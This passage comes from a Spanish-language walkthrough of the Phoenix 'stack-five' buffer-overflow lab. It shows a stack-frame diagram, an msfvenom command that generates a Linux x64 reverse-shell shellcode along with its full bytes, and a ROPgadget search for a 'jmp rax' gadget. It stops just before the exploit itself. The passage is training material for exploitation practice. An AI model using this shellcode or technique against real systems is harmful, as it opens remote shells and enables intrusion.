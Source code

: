 ```csharp
Direcciones (más altas)
┌─────────────────────────────┐
│ Saved RIP  ← Retorno a main │  <- $rbp + 8
├─────────────────────────────┤
│ Saved RBP                   │  <- $rbp
├─────────────────────────────┤
│                             │
│ ... espacio reservado ...   │  (0x80 bytes = 128 bytes)
│  para el buffer local       │
│                             │
├─────────────────────────────┤
│ Inicio del buffer           │  <- $rax / $rsp en gets
└─────────────────────────────┘
Direcciones (más bajas)
```

Ahora que ya tenemos el offset vamos a generar un shellcode con el comando `msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name shellcode` para tener una reverse shell en la máquina 

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/5_stack-five]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name shellcode
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 432 bytes
shellcode =  b""
shellcode += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f"
shellcode += b"\x05\x48\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00"
shellcode += b"\x00\x01\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a"
shellcode += b"\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21"
shellcode += b"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb"
shellcode += b"\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89"
shellcode += b"\xe7\x52\x57\x48\x89\xe6\x0f\x05"
```

Una vez identificado el **offset** y generado el **shellcode**, necesitamos una forma de transferir el flujo de ejecución hacia nuestra carga maliciosa en memoria. Esto se logra utilizando una instrucción existente en el binario que salte a la dirección donde está nuestro shellcode. podemos buscar una con el comando `ROPgadget --binary stack-five --only "jmp"` y vemos que contamos con `0x0000000000400481 : jmp rax`

```csharp
user@phoenix-amd64:/opt/phoenix/amd64$ ROPgadget --binary stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax

Unique gadgets found: 1
```

ya con estos datos podemos crear nuestro exploit para realizar la explotación de este reto, nuestro exploit quedaría de esta manera 
